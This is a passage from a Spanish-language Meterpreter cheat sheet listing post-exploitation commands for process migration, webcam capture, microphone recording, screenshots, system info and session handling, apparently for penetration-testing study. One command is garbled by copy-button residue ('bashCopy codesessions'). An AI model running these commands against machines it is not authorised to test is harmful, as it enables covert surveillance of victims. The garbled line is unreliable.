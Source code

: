     ```bash
    migrate <process_ID>
    ```

    * **Explicación:** Cambia a otro proceso en la máquina objetivo utilizando su ID de proceso.
4.  **Capturar la webcam de la máquina objetivo:**

    ```bash
    webcam_snap
    ```

    * **Explicación:** Captura una imagen de la webcam de la máquina objetivo.
5.  **Grabar el audio del micrófono de la máquina objetivo:**

    ```bash
    record_mic -d 10
    ```

    * **Explicación:** Graba audio desde el micrófono de la máquina objetivo durante 10 segundos.
6.  **Capturar la pantalla de la máquina objetivo:**

    ```bash
    screenshot
    ```

    * **Explicación:** Captura la pantalla de la máquina objetivo y muestra la imagen.
7.  **Obtener información del sistema objetivo:**

    ```bash
    sysinfo
    ```

    * **Explicación:** Muestra información detallada sobre el sistema operativo y la configuración de la máquina objetivo.
8.  **Enumerar sesiones Meterpreter activas:**

    ```bash
    bashCopy codesessions
    ```

    * **Explicación:** Muestra una lista de sesiones Meterpreter activas.
9.  **Interactuar con una sesión Meterpreter específica:**

    ```bash
    sessions -i <session_ID>
    ```

    * **Explicación:** Permite interactuar con una sesión Meterpreter específica utilizando su ID de sesión.
10. **Cargar un script en Meterpreter:**

    ```bash
    load script <script_name>
    ```

    * **Explicación:** Carga un script en Meterpreter para realizar acciones específicas.
11. **Habilitar el servidor VNC en la máquina objetivo:**
